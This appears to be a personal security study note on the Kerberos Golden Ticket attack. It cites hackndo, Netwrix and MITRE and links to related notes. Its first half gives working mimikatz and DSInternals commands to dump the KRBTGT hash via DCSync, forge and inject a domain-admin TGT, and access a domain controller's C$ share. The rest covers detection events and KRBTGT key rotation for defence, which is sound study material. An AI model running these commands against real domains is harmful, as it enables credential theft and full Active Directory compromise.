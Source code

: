 
To see : 
[[Kerberos]]
[[PAC - Privilege Attribute Certificate]]

Source : 
https://en.hackndo.com/kerberos-silver-golden-tickets/
https://www.netwrix.com/how_golden_ticket_attack_works.html
https://attack.mitre.org/techniques/T1558/001/

Compromission of the KDC (KRBTGT) hash, it allow to forge any tickets to any resources.

## Step to perform Golden ticket attacks

### Compromission of the hash for the KRBTGT account

#### Extract KrbTgt with mimikatz

```powershell
lsadump::dcsync /domain:contoso.com /user:krbtgt
```
![[Pasted image 20231015173257.png]]

#### Extract KrbTgt with DSInternals

```powershell
Get-ADReplAccount -user KrbTgt -domain contoso –server dc01
```

#### On another system

```powershell
kerberos::ptt C:\ticket.kirbi
```

### Forge kerberos tickets


```powershell
PS> mimikatz.exe kerberos::golden /domain:contoso.com /sid: /rc4: /user:administrator /id:500
```

OR

```powershell
PS> kerberos::golden /user:blue /domain:contoso.com /sid:S-1-5-21-1335734252-711511382-1358492552 /endin:5241600 /aes256:5d8029df60602bf0820ed46831e6ca4eb2a9767ed9fb4f35a741e1ec8bdb2605 /ptt
```

    - **/sid** is the domain sid
    - **/domain** — The FQDN of the domain
    - **/endin** the the validity time for the TGT (normally it is 600 minutes)
    - **/aes256** is the AES256 hash of the KrbTgt account
    - **/ptt** is the Pass The Ticket parameter which means you will inject the crafted ticket in memory, without having to run another command
- 

![[Pasted image 20231015173320.png]]

 `klist` 
    ![[Pasted image 20231015173338.png]]

### Use the forge tickets

Run  `dir \\DC01.contoso.com\C$` and then run `klist`.
    You should see a new ticket for the **cifs/DC01.contoso.com**. The DC thinks this ticket has been requested by Blue, but in your case, it was requested using your crafted TGT ticket.
    And this will work even if blue changes his password. For as long as your TGT is valid for and as long as the KrbTgt key is still the same.


## Detect

Detecting the use of a golden ticket requires analyzing Kerberos tickets for subtle signs of manipulation, such as:  

- Usernames that don’t exist in Active Directory
- Modified group memberships (added or removed)
- Username and RID mismatches
- Weaker than normal encryption types (e.g., RC4 instead of AES-256)
- Ticket lifetimes that exceed the domain maximum (the default domain lifetime is 10 hours but the default assigned by `mimikatz` is 10 years)

The following Windows events can be collected and analyzed to detect possible golden ticket use:  

|   |   |   |
|---|---|---|
|**Event**|**Source**|**Information Provided**|
|Event ID 4769: [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations)|Domain controllers|- Ticket encryption type<br>- Username|
|Event ID 4627: [Audit Group Membership](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-group-membership)|Domain controllers, member computers|- User’s security identifier (SID)<br>- Group memberships|
|Event ID 4624: [Audit Logon](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-logon)|Domain controllers, member computers|- User’s security identifier (SID)<br>- Username source IP (indicating potentially compromised host)|

## Mitigation

The KrbTgt secret doesn’t change automatically 
▪ It might be the same secret used for the last 10 years
▪ Assumed breach! It's possible you may have been compromised 10 years ago, but didn’t have the means to detect it 
▪ Rotate the KrbTgt keys is a good idea
▪ It will help you detect Golden Tickets 
- if they get used with the wrong key, they will generate a specific event on the DCs
▪ Rotate the key twice 
▪ As the previous key is still valid 
▪ But not twice in a row as it will invalidate all issued TGT and impact users and applications 
▪ Unless you are in security incident and want that 
▪ Use the script New-KrbtgtKeys.ps1 to rotate the keys
- Do not allow users to possess administrative privileges across security boundaries. For example, an adversary who compromises a workstation should not be able to escalate their privileges to move on to a domain controller.
- Minimize elevated privileges. For example, organizations often grant Domain Admins membership to service accounts unnecessarily — giving adversaries more accounts to target that will empower them to extract the `KRBTGT` hash.
- [Change the password](https://github.com/microsoft/New-KrbtgtKeys.ps1/blob/master/New-KrbtgtKeys.ps1) for the `KRBTGT` account on a regular schedule, as well as immediately upon any change in personnel responsible for Active Directory administration. Since both the current and previous password of the `KRBTGT` user are used by the KDC to validate Kerberos tickets, the password must be changed twice; the changes should be made 12–24 hours apart to prevent service disruptions.
